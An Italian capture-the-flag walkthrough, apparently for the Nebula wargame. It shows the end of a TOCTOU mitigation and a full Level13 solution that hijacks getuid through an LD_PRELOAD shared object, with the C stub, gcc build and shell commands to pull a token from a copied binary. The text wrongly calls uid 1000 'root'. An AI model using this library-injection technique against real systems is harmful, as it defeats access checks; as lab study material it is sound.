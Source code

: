 Per mitigare questo problema occorre eliminare il pattern TOCTOU e quindi eseguire le operazioni di controllo, apertura e lettura del file sequenzialmente. Si sottolinea che questa rappresenta solamente una mitigazione in quando un attaccante potrebbe comunque rallentare l'esecuzione del binario abbassando la priorità dello stesso tramite comando *nice*.

### Level13

Lo script nella home di flag13 controlla che si abbia l'accesso confrontando il valore tornato da getuid con *FAKEID* definito a 1000 (root). Per iniettera codice arbitrario in questo caso si deve eseguire una library injection. L'obiettivo è quello di sovrascrivere la funzione getuid per far tornare un valore arbitrario, in questo caso 1000.

Per farlo, si utilizza la variabile d'ambiente **LD_PRELOAD** che carica shared object prima di linkare dinamicamente altre librerie, in altre parole se qui si ridefinisce la funzione *getuid*, la funzione originale presente in libc.so viene ignorata.

Si deve quindi prima creare un file C contenente la funzione malevola, con la stessa firma di quella dichiarata in unistd.h
```bash
nano /tmp/exploit.c
```
```c
#include <unistd.h>
#include <sys/types.h> //metterlo perche uid_t potrebbe non essere definito in unistd.h

uid_t getuid(void){
    return 1000;
}
```

Si compila ora il sorgente, in modo tale da trasforlarmo in uno shared object, linkabile dal linker a tempo di esecuzione dell'eseguibile flag13.
```bash
gcc -shared -fPIC -o /tmp/exploit.so /tmp/exploit.c
```
In cui:
- **shared** serve a compilare il file come shared object
- **fPIC** serve a compilare il file come Position Independent Code, necessario per oggetti shared che vengono caricati in RAM in posizioni sempre diverse

Si esporta la variabile LD_PRELOAD
```bash
export LD_PRELOAD=/tmp/exploit.so
```

Infine, si copia l'eseguibile di flag13 perchè ld ignora LD_PRELOAD se è attiva la secure-execution, che viene attivata per ELF SUID. Ovvero un ELF SUID può eseguire LD_PRELOAD ma solo se si caricano librerie condivise nel percorso di ricerca standard che hanno gli stessi bit SETUID/SETGUID impostati (e solo se il file non inizia per slash '/'). Non si può rendere SUID il so senza essere root ma si può non rendere SUID l'eseguibile flag13.
```bash
cp /home/flag13/flag13 /home/level13
./flag13
```

Verrà stampato il token, con cui ci si può loggare su flag13 ed eseguire getflag.
